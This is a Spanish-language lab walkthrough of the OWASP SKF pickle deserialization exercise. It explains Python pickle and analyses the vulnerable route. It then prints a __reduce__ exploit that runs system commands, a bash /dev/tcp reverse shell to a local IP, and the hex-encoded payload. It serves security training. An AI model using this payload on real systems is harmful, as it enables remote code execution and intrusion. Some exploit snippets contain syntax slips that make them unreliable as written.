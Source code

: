 ```yaml
---
title: "[Lab] Python (DES-Pickle)"
date: 2023-12-25
categories: [OWASPTop10]
tags: [owasptop10, hacking, python, pickle]
---
```



# Python – Ataque de Deserialización Pickle (DES-Pickle)

### Más info:

- Links
    
    scaler - (”[https://www.scaler.com/topics/pickle-python/](https://www.scaler.com/topics/pickle-python/)”)
    

## Instalación

```bash
docker pull blabla1337/owasp-skf-lab:des-pickle
docker run -dit -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-pickle
```

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle Attack/Untitled.png)

# ¿Qué es pickle?

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle AttackUntitled 1.png)

*«Pickling»* es el proceso mediante el cual una jerarquía de objetos de Python se convierte en una secuencia de bytes, y el *«unpickling»* es la operación inversa, mediante la cual una secuencia de bytes de un archivo binario ([binary file](https://docs.python.org/es/3/glossary.html#term-binary-file)) o un objeto tipo binario ([bytes-like object](https://docs.python.org/es/3/glossary.html#term-bytes-like-object)) es convertido nuevamente en una jerarquía de objetos.

Para usar Pickle en Python, se debe importar su librería:

```bash
import pickle
```

## “pickle.dump()” y “pickle.load()”

Pickle provee dos funciones: “pickle.dump()” o “pickle.dumps()” y “pickle.load()” o “pickle.loads()” y a continuación se mostrará un ejemplo de cada una.

### pickle.dump()

**`pickle.dump()`**: Se usa para serializar un **objeto** y almacenar el output en un archivo.

```bash
# Se usa para especificar un archivo
pickle.dump(object, file, protocol=None, *, fix_imports=True,
 buffer_callback=None)
```

Ejemplo:

- Código
    
    ```bash
    import pickle
    
    dic = {
    	'name': 'bryan',
    	'age': 11,
    	'course': 'hack4u'
    }
    
    # Pickling the created dictionary
    with open('data.pickle', 'wb') as a:
    	pickle.dump(dic, a)
    ```
    

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle AttackUntitled 2.png)

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle AttackUntitled 3.png)

### pickle.dumps()

**`pickle.dumps()`**: Se usa para serializar un **objeto** y mostrar su resultado usando otro objeto.

```bash
# Se añade la "s" para especificar que se usará un string 
# en lugar de un archivo
pickle.dumps(obj, protocol = None, *, fix_imports = True, 
buffer_callback=None)
```

Ejemplo:

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle AttackUntitled 4.png)

### pickle.load()

**`pickle.load()`**: Se usa para leer un **archivo** serializado o “pickled” y verlo en su forma deserializada.

```bash
pickle.load(file, *, fix_imports=True, encoding='ASCII', 
errors='strict', buffers=None)
```

Ejemplo

- Código
    
    ```bash
    import pickle
    
    # Unpickling the created file
    with open('data.pickled', 'rb') as b:
    	unpickled = pickle.load(b)
    
    print(unpickled)
    ```
    

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle AttackUntitled 5.png)

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle AttackUntitled 6.png)

### pickle.loads()

**`pickle.loads()`**: Se usa para leer **objetos** serializados o “pickled” y mostrarlos en su forma deserializada.

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle AttackUntitled 7.png)

# Análisis de código

Ahora se analizará el archivo “DES-Pickle”:

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle AttackUntitled 8.png)

Por el método POST, se están tramitando datos en la ruta “/sync”.

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle AttackUntitled 9.png)

En la primer parte se está abriendo el archivo “pickle.hacker” con permisos de escritura. Se está tomando el valor que ingresó el usuario en el parámetro “data_obj” y lo almacena en la variable “att”, luego toma ese “att” el cual debe ser una cadena hexadecimal ya que se la función “bytes.fromhex” está buscando una cadena hexadecimal para convertirla en bytes y almacenar el output en la variable “attack”.

En la segunda parte, se está leyendo el mismo archivo “pickle.hacker” con permisos de lectura. Se está deserializando el contenido de “handler”, es decir, “pickle.hacker” y el resultado se almacena en la variable “a” y será mostrado al renderizar la página web.

## Explotación

Pickle cuenta con una función “__reduce__” la cual puede ser controlada, de forma que en el proceso de deserialización, se puede indicar qué acción se debe tomar a la hora de deserializarlo.

El siguiente código lo que hace es devolver unos datos serializados para enviarlos al servidor y este al deserializarlos, se le indica qué acción debe tomar, en este caso se quiere ejecutar un comando a nivel de sistema.

```bash
import pickle
import os
import binascii

 class Exploit(object):
	def __reduce__(self):
		return (os.system, ('id',))

if __name__ == '__main__'
	print(pickle.dumps(Exploit()))
```

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle AttackUntitled 10.png)

Al ejecutar este código, el resultado será la representación de la clase “Exploit()” serializada en bytes pero en este caso, como se vio anteriormente, la página web solo acepta cadenas hexadecimales y para esto es que se usa la librería “binascii”, para representar una cadena en hexadecimal:

```bash
import pickle
import os
import binascii

 class Exploit(object):
	def __reduce__(self):
		return (os.system, ('id',))

if __name__ == '__main__'
	print(binascii.hexlify(pickle.dumps(Exploit())))
```

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle AttackUntitled 11.png)

Al enviar esta cadena en hexadecimal al servidor, este un 0 pero no muestra el resultado del comando por lo que es posible que lo que está mostrando es el código de estado del comando ejecutado. En este caso, en lugar del comando “id”, se creará una reverse shell en la máquina local.

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle AttackUntitled 12.png)

Código para reverse shell

```bash
import pickle
import os
import binascii

class Exploit(object)
	def __reduce__(self):
		return (os.system, ('bash -c "bash -i >& /dev/tcp/192.168.0.108/4646 0>&1"',))

if __name__ == '__main__':
	print(binascii.hexlify(pickle.dumps(Exploit)))
```

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle AttackUntitled 13.png)

Cadena copiada:

```bash
80049550000000000000008c05706f736978948c0673797374656d9493948c3562617368202d63202262617368202d69203e26202f6465762f7463702f3139322e3136382e302e3130382f3436343620303e26312294859452942e
```

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle AttackUntitled 14.png)

